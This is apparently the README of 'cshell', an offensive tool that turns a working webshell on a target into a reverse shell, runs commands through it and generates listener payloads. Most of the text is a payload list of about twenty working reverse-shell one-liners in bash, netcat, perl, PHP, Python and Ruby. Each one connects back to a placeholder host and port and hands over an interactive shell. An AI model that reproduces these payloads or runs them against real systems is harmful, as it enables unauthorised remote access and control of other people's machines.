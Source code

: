 # CSHELL
***
This script takes a working webshell as an argument and can perform the following operations
- rev : This option sends a payload according to your choice and triggers that payload on the target webshell<br\>
- web : This parameter can execute direct command on the webshell using persisted working directory and error message<br/>
- lstnr : This option generates a payload and copies it to the clipboard. It can also start a listener, and also encodes the payload [Both are Optional]
## Install
```pip3 install cshell```
### Usage
```
$ cshell --help
usage: cshell.py [-h] [--payloads] {rev,web,lstnr} ...

positional arguments:
  {rev,web,lstnr}

optional arguments:
  -h, --help       show this help message and exit
  --payloads       List all payload formats for rev

web     Direct command execution on the webshell with error message
rev     Reverse shell from a working webshell
lstnr   Generate payload, copy it to your clipboard and start a listener[Optional]

```

### Payloads
```
$ cshell --payloads
========================================================================================================
Format-Name                     Payload
========================================================================================================
bash-196                        0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; bash <&196 >&196 2>&196
bash                            bash -i >& /dev/tcp/127.0.0.1/1337 0>&1
bash-read-line                  exec 5<>/dev/tcp/127.0.0.1/1337;cat <&5 | while read line; do $line 2>&5 >&5; done
bash-5                          bash -i 5<> /dev/tcp/127.0.0.1/1337 0<&5 1>&5 2>&5
bash-udp                        bash -i >& /dev/udp/127.0.0.1/1337 0>&1
nc-mkfifo                       rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 127.0.0.1 1337 >/tmp/f
nc                              nc -e /bin/bash 127.0.0.1 1337
nc-c                            nc -c /bin/bash 127.0.0.1 1337
ncat-e                          ncat 127.0.0.1 1337 -e /bin/bash
perl                            perl -e 'use Socket;$i="127.0.0.1";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
php-exec                        php -r '$sock=fsockopen("127.0.0.1",1337);exec("bash <&3 >&3 2>&3");'
php-shell-exec                  php -r '$sock=fsockopen("127.0.0.1",1337);shell_exec("bash <&3 >&3 2>&3");'
php-system                      php -r '$sock=fsockopen("127.0.0.1",1337);system("bash <&3 >&3 2>&3");'
php-passthru                    php -r '$sock=fsockopen("127.0.0.1",1337);passthru("bash <&3 >&3 2>&3");'
php-popen                       php -r '$sock=fsockopen("127.0.0.1",1337);popen("bash <&3 >&3 2>&3", "r");'
python                          python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
python-export                   export RHOST="127.0.0.1";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
python3                         python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
python3-export                  export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
ruby                            export RHOST=127.0.0.1;export RPORT=1337;ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```